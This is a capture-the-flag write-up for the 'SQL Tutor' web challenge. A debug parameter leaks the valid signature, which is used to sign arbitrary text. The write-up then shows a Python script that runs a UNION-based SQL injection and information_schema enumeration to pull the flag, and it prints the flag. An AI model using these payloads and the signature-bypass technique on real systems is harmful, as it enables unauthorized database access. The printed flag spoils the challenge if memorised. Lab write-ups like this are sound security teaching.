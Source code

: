 # SQL Tutor

We have an application where we can learn SQL, we also have a input that will be replaced in the query :

![image](https://user-images.githubusercontent.com/76447395/163682323-b9b29825-0ee8-48df-8c06-8df59f572002.png)

Let's check the request :

```
POST /verify_and_sign_text HTTP/2

text=Zm9v&alg=sha1
```

Zm9v is 'foo' base64 encoded. And the response is :

```json
{"status":"ok","trimmedText":"Zm9v","signature":"c6ff6dfadf2866dfd0bc7e0b2a1e8284c9759b65","debug":null}
```

We see the debug parameter, this is weird, let's try to set it to true.

```
POST /verify_and_sign_text HTTP/2

text=Zm9v&alg=sha1&debug=true
```

Response :

```json
{
   "status":"ok",
   "trimmedText":"Zm9v",
   "signature":"c6ff6dfadf2866dfd0bc7e0b2a1e8284c9759b65",
   "debug":{
      "input":{
         "alg":"sha1",
         "text":"Zm9v"
      },
      "steps":[
         "Selected sha1 algorithm ✅",
         "Decoded text from base64 ✅",
         "Trimmed and checked the text ✅",
         "Created signature: sha1(secret+sanitize(text)) ✅"
      ]
   }
}
```

This is so interesting! Now we know how the signature is crafted but we would have to bruteforce the secret key. We also have another endpoint (`/endpoint`) where we send 
the text and signature :

```
POST /execute HTTP/2

text=Zm9v&signature=c6ff6dfadf2866dfd0bc7e0b2a1e8284c9759b65&queryNo=0
```

Response :

```json
{
   "status":"ok",
   "query":"SELECT * FROM users WHERE users.name='foo'",
   "results":[
      
   ],
   "description":"This query selects all users with the name 'foo'.",
   "debug":null
}
```

Let's try here to use an invalid text (due to the fact that the signature would not match, in my case I'll use `' or 1=1-- `) :

```json
{
   "status":"error",
   "message":"Invalid text signature, this incident will be reported!",
   "debug":{
      "input":{
         "signature":"c6ff6dfadf2866dfd0bc7e0b2a1e8284c9759b65",
         "text":"JyBvciAxPTEtLSA="
      },
      "steps":[
         "Decoded text from base64 ✅",
         "Selected query #0 ✅"
      ],
      "compare":"0b40a2290d6bbdcd641799b53159a5d2e82512c7 !== c6ff6dfadf2866dfd0bc7e0b2a1e8284c9759b65"
   }
}
```

In the `compare` field we can see the signature that correspond to our text, let's try to use that one :

```
POST /execute HTTP/2

text=JyBvciAxPTEtLSA%3D&signature=0b40a2290d6bbdcd641799b53159a5d2e82512c7&queryNo=0&debug=true
```

Response : 

```json
{
   "status":"ok",
   "query":"SELECT * FROM users WHERE users.name='' or 1=1-- '",
   "results":[
      {
         "id":1,
         "name":"Branko",
         "surname":"Cakarmish",
         "age":19
      },
      [...]
   ],
   "description":"This query selects all users with the name '' or 1=1-- '.",
   "debug":{
      "input":{
         "signature":"0b40a2290d6bbdcd641799b53159a5d2e82512c7",
         "text":"JyBvciAxPTEtLSA="
      },
      "steps":[
         "Decoded text from base64 ✅",
         "Selected query #0 ✅",
         "Confirmed text and signature match ✅",
         "Executed query ✅"
      ]
   }
}
```

Nice! This worked, let's try to perform a SQL Injection attack, in my case I made a script :

```python
import requests
import json
import base64

url = "https://sqltutor.dragonsec.si:443/execute"

# Get table -> SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET 1
# Get Column -> SELECT column_name from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME='flags' LIMIT 1 OFFSET 1
query = "SELECT flag FROM flags"
query = f"Branko' UNION SELECT ({query}), 1, 1, 1-- "

data = {"text": base64.b64encode(query.encode("utf-8")).decode(), 
        "signature": "0b40a2290d6bbdcd641799b53159a5d2e82513c7", 
        "queryNo": "0", 
        "debug": "true"}
r = requests.post(url, data=data)

signature = json.loads(r.text)["debug"]["compare"].split()[0]

data = {"text": base64.b64encode(query.encode("utf-8")).decode(), 
        "signature": signature, 
        "queryNo": "0", 
        "debug": "true"}

r = requests.post(url, data=data)

print(json.loads(r.text)["results"][1]["id"])
```

> Flag : `dctf{Pump_7h3_s7r3am_h4s5_up!_353aa965}`

